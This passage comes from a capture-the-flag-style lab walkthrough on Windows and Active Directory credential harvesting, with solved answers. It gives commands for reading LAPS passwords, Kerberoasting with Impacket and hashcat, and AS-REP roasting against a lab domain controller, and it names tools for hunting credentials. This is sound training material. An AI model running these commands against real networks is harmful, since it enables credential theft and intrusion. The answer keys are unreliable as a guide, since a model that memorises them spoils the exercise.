Next, we need to find which AD organizational unit (OU) has the "All extended rights" attribute that deals with LAPS. We will be using the "Find-AdmPwdExtendedRights" cmdlet to provide the right OU. Note that getting the available OUs could be done in the enumeration step. Our OU target in this example is `THMorg`. You can use the `-Identity *`  argument to list all available OUs.


The output shows that the `THMGroupReader` group in `THMorg` has the right access to LAPS. Let's check the group and its members.


### Getting the Password

We found that the `bk-admin` user is a member of `THMGroupReader`, so in order to get the LAPS password, we need to compromise or impersonate the bk-admin user. After compromising the right user, we can get the LAPS password using `Get-AdmPwdPassword` cmdlet by providing the target machine with LAPS enabled.


It is important to note that in a real-world AD environment, the LAPS is enabled on specific machines only. Thus, you need to enumerate and find the right target computer as well as the right user account to be able to get the LAPS password. There are many scripts to help with this, but we included the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell script in `C:\Tool` to try it out.

### Answer the questions below

* Which group has ExtendedRightHolder and is able to read the LAPS password?

	`LAPsReader`

	* Check if LAPS is installed in the target machine
	
		```
		dir "C:\Program Files\LAPS\CSE"
		```

		

	* Listing the available PowerShell cmdlets for LAPS
	
		```
		Get-Command *AdmPwd*
		```

		

	* Finding Users with `AdmPwdExtendedRights` attribute 
	
		```
		Find-AdmPwdExtendedRights -Identity *
		Find-AdmPwdExtendedRights -Identity THMorg
		```

		

* Follow the technique discussed in this task to get the LAPS password. What is the LAPs Password for Creds-Harvestin computer?

	`THMLAPSPassw0rd`

	* Finding Users belong to `LAPsReader` Group
	
		```
		net groups "LAPsReader"
		```

		

	* Getting LAPS Password with the Right User
	
		```
		Get-AdmPwdPassword -ComputerName Creds-Harvestin
		```

		

* Which user is able to read LAPS passwords?

	`bk-admin`

## Task 9 - Other Attacks

In the previous tasks, the assumption is that we already had initial access to a system and were trying to obtain credentials from memory or various files within the Windows operating system. In other scenarios, it is possible to perform attacks in a victim network to obtain credentials.

This task will briefly introduce some of the Windows and AD attacks that can be used to obtain the hashes. Before diving into more AD attack details, we suggest being familiar with [Kerberos protocol](https://en.wikipedia.org/wiki/Kerberos_(protocol)) and New Technology LAN Manager (NTLM), a suite of security protocols used to authenticate users.

### Kerberoasting

Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS). This attack's end goal is to enable privilege escalation and lateral network movement. For more details about the attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 3).

Let's do a quick demo about the attack. First, we need to find an SPN account(s), and then we can send a request to get a TGS ticket. We will perform the Kerberoasting attack from the AttackBox using the GetUserSPNs.py python script. Remember to use the `THM.red/thm` account with `Passw0rd!` as a password.


The previous command is straightforward: we provide the Domain Controller IP address and the domain name\username. Then the GetUserSPNs script asks for the user's password to retrieve the required information.

The output revealed that we have an SPN account, svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the srv-user user using the -request-user argument.


Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using `-m 13100` mode as follows,


Try replicating the steps against the attached VM by finding the SPN user and then performing the Kerberoasting attack. Once you have obtained the ticket, crack it and answer the question below.

### AS-REP Roasting

AS-REP Roasting is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "Do not require Kerberos pre-authentication". This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!


The attached VM has one of the AD users configured with the "Do not require Kerberos preauthentication" setting. Before performing the AS-REP Roasting, we need a list of domain accounts that should be gathered from the enumeration step. In our case, we created a `users.lst` list in the tmp directory. The following is the content of our list, which should be gathered during the enumeration process.

```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```

We will be using the Impacket Get-NPUsers script this time as follows,



We specified the IP address of the domain controller with the `-dc-ip` argument and provided a list of domain users to check against. Once the tool finds the right user with no preauthentication configuration, it will generate the ticket.

Various cybersecurity and hacking tools also allow cracking the TGTs harvested from Active Directory, including Rubeus and Hashcat. Impacket GetNPUsers has the option to export tickets as John or hashcat format using the `-format` argument.

### SMB Relay Attack

The SMB Relay attack abuses the NTLM authentication mechanism (NTLM challenge-response protocol). The attacker performs a Man-in-the-Middle attack to monitor and capture SMB packets and extract hashes. For this attack to work, the SMB signing must be disabled. SMB signing is a security check for integrity and ensures the communication is between trusted sources. 

We suggest checking the THM [Exploiting AD](https://tryhackme.com/room/exploitingad) room for more information about the SMB relay attack.

### LLMNR/NBNS Poisoning

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) help local network machines to find the right machine if DNS fails. For example, suppose a machine within the network tries to communicate with no existing DNS record (DNS fails to resolve). In that case, the machine sends multicast messages to all network machines asking for the correct address via LLMNR or NBT-NS.

The NBNS/LLMNR Poisoning occurs when an attacker spoofs an authoritative source on the network and responds to the Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) traffic to the requested host with host identification service. If you want to learn more about the attack, we suggest checking THM [Breaching AD](https://tryhackme.com/room/breachingad) room.

The end goal for SMB relay and LLMNR/NBNS Poisoning attacks is to capture authentication NTLM hashes for a victim, which helps obtain access to the victim's account or machine. 

### Answer the questions below

* Enumerate for SPN users using the Impacket GetUserSPNs script. What is the Service Principal Name for the Domain Controller?

	`svc-thm`

	* Enumerating for SPN Accounts
	
		```
		python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.131.49 THM.red/thm
		```

		

* After finding the SPN account from the previous question, perform the Kerberoasting attack to grab the TGS ticket and crack it. What is the password?

	`Passw0rd1`

	* Requesting a TGS ticket as SPN Account 
	
		```
		python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.131.49 THM.red/thm -request-user svc-thm
		```

		

	* Save TGS hash to file and cracking the TGS ticket using Hashcat
	
		```
		hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
		```

		

## Task 10 - Conclusion

### Recap

In this room, we discussed the various approaches to obtaining users' credentials, including the local computer and Domain Controller, which conclude the following:

* We discussed accessing Windows memory, dumping an LSASS process, and extracting authentication hashes.
* We discussed Windows Credentials Manager and methods to extract passwords.
* We introduced the Windows LAPS feature and enumerated it to find the correct user and target to extract passwords.
* We introduced AD attacks which led to dumping and extracting users' credentials.

The following tools may be worth trying to scan a target machine (files, memory, etc.) for hunting sensitive information. We suggest trying them out in the enumeration stage.

* [Snaffler](https://github.com/SnaffCon/Snaffler)
* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Lazagne](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

### Answer the questions below

* Good work on finishing the room and keep learning!